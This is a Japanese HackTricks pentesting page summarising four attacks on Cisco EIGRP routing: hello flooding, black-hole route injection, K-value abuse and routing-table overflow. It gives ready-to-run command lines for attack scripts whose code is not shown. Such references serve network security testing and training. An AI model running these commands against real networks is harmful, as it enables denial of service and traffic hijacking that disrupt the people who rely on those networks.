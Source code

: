 # EIGRP攻撃

{% hint style="success" %}
AWSハッキングの学習と練習：<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
GCPハッキングの学習と練習：<img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>HackTricksをサポート</summary>

* [**サブスクリプションプラン**](https://github.com/sponsors/carlospolop)をチェック！
* 💬 [**Discordグループ**](https://discord.gg/hRep4RUj7f)に参加するか、[**telegramグループ**](https://t.me/peass)に参加するか、**Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**をフォロー**してください。
* **HackTricks**と**HackTricks Cloud**のGitHubリポジトリにPRを提出してハッキングテクニックを共有してください。

</details>
{% endhint %}

**これは** [**https://medium.com/@in9uz/cisco-nightmare-pentesting-cisco-networks-like-a-devil-f4032eb437b9**](https://medium.com/@in9uz/cisco-nightmare-pentesting-cisco-networks-like-a-devil-f4032eb437b9) **で公開された攻撃の要約です。詳細についてはそちらをご覧ください。**

## **偽EIGRP隣接攻撃**

- **目的**: EIGRPハローパケットをフラッディングしてルーターのCPUを過負荷にし、サービス拒否（DoS）攻撃を引き起こす可能性がある。
- **ツール**: **helloflooding.py**スクリプト。
- **実行**:
%%%bash
~$ sudo python3 helloflooding.py --interface eth0 --as 1 --subnet 10.10.100.0/24
%%%
- **パラメータ**:
- `--interface`: ネットワークインターフェースを指定、例: `eth0`。
- `--as`: EIGRP自律システム番号を定義、例: `1`。
- `--subnet`: サブネットの場所を設定、例: `10.10.100.0/24`。

## **EIGRPブラックホール攻撃**

- **目的**: 偽のルートを注入してネットワークトラフィックの流れを妨害し、トラフィックが存在しない宛先に向けられるブラックホールを作成する。
- **ツール**: **routeinject.py**スクリプト。
- **実行**:
%%%bash
~$ sudo python3 routeinject.py --interface eth0 --as 1 --src 10.10.100.50 --dst 172.16.100.140 --prefix 32
%%%
- **パラメータ**:
- `--interface`: 攻撃者のシステムインターフェースを指定。
- `--as`: EIGRP AS番号を定義。
- `--src`: 攻撃者のIPアドレスを設定。
- `--dst`: ターゲットサブネットIPを設定。
- `--prefix`: ターゲットサブネットIPのマスクを定義。

## **K-Values悪用攻撃**

- **目的**: 変更されたK-Valuesを注入することでEIGRPドメイン内で連続的な障害と再接続を作成し、実質的にDoS攻撃を引き起こす。
- **ツール**: **relationshipnightmare.py**スクリプト。
- **実行**:
%%%bash
~$ sudo python3 relationshipnightmare.py --interface eth0 --as 1 --src 10.10.100.100
%%%
- **パラメータ**:
- `--interface`: ネットワークインターフェースを指定。
- `--as`: EIGRP AS番号を定義。
- `--src`: 正規のルーターのIPアドレスを設定。

## **ルーティングテーブルオーバーフローアタック**

- **目的**: 偽のルートを大量にルーティングテーブルにフラッディングしてルーターのCPUとRAMを過負荷にする。
- **ツール**: **routingtableoverflow.py**スクリプト。
- **実行**:
%%%bash
sudo python3 routingtableoverflow.py --interface eth0 --as 1 --src 10.10.100.50
%%%
- **パラメータ**:
- `--interface`: ネットワークインターフェースを指定。
- `--as`: EIGRP AS番号を定義。
- `--src`: 攻撃者のIPアドレスを設定。


{% hint style="success" %}
AWSハッキングの学習と練習：<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
GCPハッキングの学習と練習：<img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>HackTricksをサポート</summary>

* [**サブスクリプションプラン**](https://github.com/sponsors/carlospolop)をチェック！
* 💬 [**Discordグループ**](https://discord.gg/hRep4RUj7f)に参加するか、[**telegramグループ**](https://t.me/peass)に参加するか、**Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**をフォロー**してください。
* **HackTricks**と**HackTricks Cloud**のGitHubリポジトリにPRを提出してハッキングテクニックを共有してください。

</details>
{% endhint %}
